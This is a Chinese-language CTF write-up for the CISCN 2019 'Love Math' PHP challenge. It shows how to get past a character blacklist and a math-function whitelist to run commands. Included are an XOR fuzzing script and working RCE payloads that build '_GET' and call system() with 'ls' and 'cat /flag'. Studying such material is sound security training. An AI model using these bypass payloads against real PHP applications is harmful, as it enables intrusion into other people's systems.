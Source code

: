 # [CISCN 2019 初赛]Love Math

## 知识点

`白名单函数构造RCE`

`php代码审计`

## 解题

```php
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
```

发现黑名单字符不包含`^`和`.`，同时长度限制在`80`个字符以内

- **动态函数**
  `php`中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数
  例如：`$function = "sayHello";$function();`

- **php中函数名默认为字符串**
  例如本题白名单中的`asinh`和`pi`可以直接异或，这就增加了构造字符的选择

### 1. 方法一

我们想要执行的命令为`system(ls)`，可以通过`动态函数`的方式和`php中函数名默认为字符串`，比如设置白名单的`pi`的值为`_GET`,那么就可以赋值到`pi`变量中绕过过滤正常传值

```php
$$pi 	// $_GET
($$pi)(pi)		// $_GET[pi]
($$pi)(cos)		// $_GET[cos]

// 那么我们组合起来执行命令
($$pi){pi}(($$pi){cos})		// $_GET[pi]($_GET[cos])

这个时候传 pi=system&cos=ls 就可以了
```

现在就是让`$pi`的值为`_GET`，我们用白名单来转,因为`bindec`用不了,我用`bin2hex`，但是`bin2hex`不在`白名单`，我用`base_convert`转出来`hex2bin`

```php
<?php

$b2h = bin2hex("_GET");
echo 'bin2hex("_GET")' . " ==> $b2h";
echo '<br />';
$hd = hexdec($b2h);
echo 'hexdec(bin2hex("_GET"))' . " ==> $hd";

echo '<br />';
echo "hex2bin(dechex(1598506324)) ==> " . hex2bin(dechex(1598506324));

echo '<br />';
echo 'base_convert("hex2bin",36,10) ==> ' . base_convert("hex2bin", 36,10);

echo '<br />';
echo 'base_convert(37907361743,10,36) ==> ' . base_convert(37907361743, 10,36);

echo '<br />';
echo 'base_convert(37907361743,10,36)(dechex(1598506324)) ==> ' . base_convert(37907361743,10,36)(dechex(1598506324));
```

所以构造`payload`

```php
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){cos})&pi=system&cos=ls
```

![](./img/[CISCN2019初赛]LoveMath-2.png)

### 2. 方法二

因为`^`和`.`没有被禁用，我们直接用这两个字符来`fuzz`

```php
<?php
$white = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($i=1;$i<=sizeof($white);$i++){
    for ($j=0; $j < 9 ; $j++) { 
        for ($k=0; $k < 9 ; $k++) { 
            $exp = $white[$i] ^ $j . $k;
            if ($exp === '_G') {
                echo "$white[$i] ^ ($j) . ($k) ==> $exp";
                echo "<br />";
            } else if ($exp === 'ET'){
                echo "$white[$i] ^ ($j) . ($k) ==> $exp";
                echo "<br />";
            }
        }
    }
}
```

![](./img/[CISCN2019初赛]LoveMath-1.png)

我们随便挑两个组合起来就行

```php
c=$pi=(is_finite^(6).(4)).(rad2deg^(7).(5));($$pi){pi}(($$pi){cos})&pi=system&cos=cat /flag
```

![](./img/[CISCN2019初赛]LoveMath-3.png)

### 3. 方法三

或者直接`cat /flag`，[方法](https://www.cnblogs.com/20175211lyz/p/11588219.html)